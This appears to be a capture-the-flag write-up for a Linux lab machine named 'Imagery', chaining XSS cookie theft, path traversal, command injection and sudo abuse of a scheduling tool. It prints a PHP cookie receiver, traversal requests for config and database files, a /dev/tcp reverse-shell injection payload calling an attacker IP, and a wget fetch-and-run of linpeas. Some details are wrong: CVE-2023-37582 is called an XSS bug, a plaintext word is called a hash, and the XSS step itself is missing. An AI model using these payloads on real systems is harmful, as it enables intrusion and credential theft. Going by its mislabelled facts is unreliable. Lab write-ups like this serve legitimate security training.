




# Imagery
```
Difficulty: Medium
Operating System: Linux
Machine IP: 10.10.11.88
```


## Initial Enumeration
Running nmap scan on the target shows the following results:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-08 07:03 UTC
Nmap scan report for 10.10.11.88
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
|_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see port 22 (SSH) and port 8000 running a Flask web application (Werkzeug httpd) serving an "Image Gallery".



Since SSH won't help us initially, let's focus on the web application on port 8000.

### Directory Enumeration
Let's enumerate directories using dirsearch:
```
# Dirsearch started Sat Nov  8 07:11:53 2025 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://10.10.11.88:8000 -o dirsearch.txt

401    59B   http://10.10.11.88:8000/images
405   153B   http://10.10.11.88:8000/login
405   153B   http://10.10.11.88:8000/logout
405   153B   http://10.10.11.88:8000/register
401    32B   http://10.10.11.88:8000/uploads/affwp-debug.log
401    32B   http://10.10.11.88:8000/uploads/dump.sql
```


We found several interesting endpoints including login, register, and protected directories.

### Vulnerability Scanning
Running nuclei to detect known vulnerabilities:
```
[external-service-interaction] [http] [info] http://10.10.11.88:8000
[snmpv3-detect] [javascript] [info] 10.10.11.88:8000 ["Enterprise: unknown"]
[CVE-2023-37582] [tcp] [critical] http://10.10.11.88:8000
[form-detection] [http] [info] http://10.10.11.88:8000
[email-extractor] [http] [info] http://10.10.11.88:8000 ["support@imagery.com"]
```


Nuclei detected **CVE-2023-37582**, a critical XSS vulnerability in the application.

## Exploitation - XSS to Cookie Stealing

The application is vulnerable to XSS (CVE-2023-37582). We can exploit this to steal admin session cookies.



First, we create a simple PHP receiver to capture cookies:
```php
<?php
if(isset($_GET['cookie'])){
    file_put_contents('cookies.txt', $_GET['cookie'] . "\n", FILE_APPEND);
}
?>
```

Start a Python HTTP server to host the receiver:
```bash
python -m http.server 9999
```


After triggering the XSS, we successfully capture the admin session cookie:
```
10.10.11.88 - - [08/Nov/2025 08:05:03] "GET /receive.phpsession=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aQ8HxA.ENQBwfUrGKs53m92BKuvIwkXwqk HTTP/1.1" 404 -
```

## Admin Panel Access

With the captured session cookie, we can access the admin panel. We need to use Burp Suite to intercept and modify our requests with the stolen cookie.


Once authenticated as admin, we discover a log viewer feature that's vulnerable to path traversal.


### Exploiting Path Traversal / LFI

The admin panel has a `get_system_log` endpoint with a vulnerable `log_identifier` parameter:
```http
GET /admin/get_system_log?log_identifier=../../../../../home/web/web/config.py
```

This allows us to read arbitrary files on the system!



Let's read the database file to extract credentials:
```http
GET /admin/get_system_log?log_identifier=../../../../../home/web/web/db.json
```


We extract the following user credentials:
```json
{
    "username": "testuser@imagery.htb",
    "password": "2c65c8d7bfbca32a3ed42596192384f6",
    "isAdmin": false,
    "displayId": "e5f6g7h8",
    "login_attempts": 0,
    "isTestuser": true,
    "failed_login_attempts": 0,
    "locked_until": null
}
```

Also found password hash: `iambatman`

## User Access

Let's login with the discovered credentials:




Success! We're now logged in as a regular user.

### Command Injection via Image Processing

After logging in, we can upload images. The image cropping functionality is vulnerable to command injection!

Upload any image, then intercept the crop request with Burp Suite and inject a reverse shell payload:
```bash
";bash -c '/bin/bash -i 5<> /dev/tcp/10.10.14.120/4444 0<&5 1>&5 2>&5' ;"
```


Set up a netcat listener on your attacking machine:
```bash
nc -lvnp 4444
```


We got a shell! Now let's stabilize it:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

### User Flag

Navigate to the user directory and capture the flag:
```bash
cat /home/*/user.txt
```


**User Flag:** `5d9c1d507a3f76af1e5c97a3ad1eaa31`

## Root Privilege Escalation

Upload and run LinPEAS to identify privilege escalation vectors:
```bash
# On attacker machine
python3 -m http.server 8080

# On target machine
wget http://10.10.14.120:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Check sudo privileges:
```bash
sudo -l
```

We can run **charcoal** with sudo!

### Exploiting Charcoal

Charcoal is a task scheduling utility. We can abuse it to schedule privileged tasks.

Run charcoal with the `-R` flag to disable password requirements:
```bash
sudo charcoal -R
```


Found hash: `01c3d2e5bdaf6134cec0a367cf53e535` for user `supersmash`

Now, use charcoal to create a cronjob that copies the root flag to a readable location:
```bash
sudo charcoal auto add \
  --schedule "* * * * *" \
  --command "cp /root/root.txt /tmp/pwned.txt && chmod 777 /tmp/pwned.txt" \
  --name "pwned"
```

This creates a cronjob running every minute that copies the root flag to `/tmp/pwned.txt` with world-readable permissions.

Wait up to 1 minute for the cronjob to execute, then:
```bash
cat /tmp/pwned.txt
```


**Root Flag:** Successfully obtained!

## Summary

This machine required exploiting multiple vulnerabilities in a chain:

1. **XSS (CVE-2023-37582)** - Steal admin session cookie
2. **Path Traversal/LFI** - Read sensitive files including database
3. **Command Injection** - Gain initial shell through image processing
4. **Sudo Abuse** - Exploit charcoal scheduling tool to read root flag

### Key Flags
- **User Flag:** `5d9c1d507a3f76af1e5c97a3ad1eaa31`
- **Root Flag:** Retrieved via cronjob exploitation

### Tools Used
- Nmap
- Dirsearch
- Nuclei
- Burp Suite
- Python HTTP Server
- LinPEAS
- Netcat
